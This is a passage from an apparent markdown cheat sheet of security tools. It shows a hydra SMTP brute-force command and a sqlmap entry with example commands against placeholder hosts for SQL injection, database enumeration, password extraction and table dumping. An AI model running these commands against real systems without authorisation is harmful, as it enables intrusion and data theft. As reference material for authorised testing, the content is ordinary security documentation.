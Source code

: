 ```bash
# SMTP authentication test
hydra -l user@example.com -P passwords.txt -s 587 smtp://mail.example.com
```

---


## Web Security & Application Testing

### **sqlmap** - Automatic SQL Injection Tool**Difficulty**: ⭐⭐⭐⭐ Advanced


**Description**: Automatic SQL injection and database takeover tool - detects and exploits SQL injection flaws
**Location**: `/opt/homebrew/bin/sqlmap`
**Common Use Cases**:

- SQL injection testing
- Database enumeration
- Data extraction
- Web application security
- Penetration testing
- Database fingerprinting

**Why Essential**: Industry standard for automated SQL injection detection and exploitation.

**See Also**: `nikto` (web scanner), `burpsuite` (web proxy), `nmap` (port scanning)

**Examples**:

```bash
# Basic scans
sqlmap -u "http://target.com/page.php?id=1"                     # Basic scan
sqlmap -u "http://target.com/page.php?id=1" --dbs               # List databases
sqlmap -u "http://target.com/page.php?id=1" --tables            # List tables
sqlmap -u "http://target.com/page.php?id=1" --columns           # List columns

# Database enumeration
sqlmap -u "http://target.com/page.php?id=1" --current-db        # Current database
sqlmap -u "http://target.com/page.php?id=1" --current-user      # Current user
sqlmap -u "http://target.com/page.php?id=1" --is-dba            # Check if DBA
sqlmap -u "http://target.com/page.php?id=1" --users             # Database users
sqlmap -u "http://target.com/page.php?id=1" --passwords         # User passwords

# Specific database/table operations
sqlmap -u "http://target.com/page.php?id=1" -D database_name --tables
sqlmap -u "http://target.com/page.php?id=1" -D db_name -T table_name --columns
sqlmap -u "http://target.com/page.php?id=1" -D db_name -T table_name --dump
sqlmap -u "http://target.com/page.php?id=1" -D db_name -T table_name -C column1,column2 --dump

# POST requests
sqlmap -u "http://target.com/login.php" --data="username=admin&password=pass"
sqlmap -u "http://target.com/search.php" --data="q=test" -p q  # Test parameter 'q'

# Cookie-based injection
sqlmap -u "http://target.com/page.php" --cookie="PHPSESSID=abcd1234"
sqlmap -u "http://target.com/page.php" --cookie="id=1*" --level=2

# Headers injection
sqlmap -u "http://target.com/page.php" --headers="X-Forwarded-For: 1.2.3.4*"
sqlmap -u "http://target.com/page.php" -H "User-Agent: sqlmap"

# Request from file
sqlmap -r request.txt                                           # Use saved request
sqlmap -r request.txt -p parameter                              # Test specific param
```